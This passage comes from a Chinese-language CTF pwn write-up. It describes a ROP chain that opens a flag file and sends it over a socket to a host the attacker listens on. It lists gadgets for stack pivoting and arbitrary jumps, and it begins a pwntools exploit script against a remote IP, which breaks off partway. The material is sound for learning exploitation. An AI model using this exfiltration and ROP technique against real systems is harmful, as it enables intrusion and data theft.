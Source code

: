 那么我们就要利用 `open("flag"),sockfd = socket(2, 1, 0),connect(sockfd, socked_addr, 16),sendfile(sockfd,flag_fd,offset,count)`，然后本机监听端口获得flag。

socket结构体的获取可参考该文章：https://blog.wingszeng.top/pwn-use-socket-to-bypass-close-out/ 

此外还需介绍一些特殊的gadget 用于设置调用函数的参数。

```assembly
0x000000000040284c : pop rbx ; pop r12 ; pop rbp ; ret

0x4022dc <__do_global_dtors_aux+28>:	add    DWORD PTR [rbp-0x3d],ebx
0x4022df <__do_global_dtors_aux+31>:	nop
0x4022e0 <__do_global_dtors_aux+32>:	ret  
```

在bss段残留的stderr stdout stdin 的libc地址，我们需要算出libc中函数地址具体这三者之一的偏移，通过上述两个gadget ，将其设置为我们想要的libc地址，接下来便是如何调用这个地址

```assembly
0x00000000004022dd : pop rbp ; ret
0x00000000004030e2 : mov rax, qword ptr [rbp - 8] ; mov rax, qword ptr [rax + 0x10] ; pop rbp ; ret
0x000000000040226c : jmp rax

```

通过上述gadget 我们可以控制rbp，进而控制rax，通过jmp rax 实现任意地址跳转执行。

但是程序中并没有pop rdi，rsi，rdx，这样的gadget 。

因此我们需要利用libc中的这样的gadget，来控制函数的参数，最后再调用所需要的函数。由于一个chunk的大小为0x200，所以我们需要在多个chunk 中布置rop链，通过pop rsp进行栈迁移。

> 事实上我们可以调用mprotect 函数开辟rwx段写shellcode，这样所需的字节就会少很多
>
> 另外，由于程序是使用strlen 计算 要复制buf的长度，那么如果出现ROP链中出现`"\x00"`，就会被截断，std::cin在读取字符时会跳过空白字符（空格、制表符、换行符等），所以我们需要额外判断一下，是分八字节写还是逐个字节写

```python
from pwn import*
context.arch='amd64'
#context.log_level='debug'
p=remote("8.130.35.16",58000)
#p=process("./pwn")
libc=ELF("./libc.so.6")
s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
def mydbg():
	gdb.attach(p,"b *0x402441")
	pause()


def menu(choice):
	ru("Now input your choice: ")
	sl(str(choice))

def add():
	menu(1)

def edit(index,offset,content):
```